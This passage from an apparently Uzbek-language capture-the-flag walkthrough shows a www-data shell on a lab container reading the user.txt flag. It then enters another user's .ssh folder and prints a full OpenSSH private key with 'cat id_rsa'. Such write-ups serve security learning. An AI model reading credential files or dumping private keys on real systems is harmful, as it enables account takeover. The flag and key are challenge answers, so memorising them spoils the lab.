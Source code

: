 ```
drwxr-x--- 5 www-data www-data 4.0K Dec 20  2023 spip
-rw-r--r-- 1 root     root       35 Feb 10  2024 user.txt
www-data@41c976e507f8:/home/think$ cat user.txt
cat user.txt
fa229046d44eda6a3598c73ad96f4ca5  
```

user.txt ni qo'lga kiritdik. 1-flagni qo'lga kiritdik...

**.ssh**  (qiziqga o'xshayapti... balki id_rsa ni ochib o'qishga erisharmiz)

```
www-data@41c976e507f8:/home/think$ cd  .ssh
cd  .ssh
www-data@41c976e507f8:/home/think/.ssh$ ls
ls
authorized_keys
id_rsa
id_rsa.pub
www-data@41c976e507f8:/home/think/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
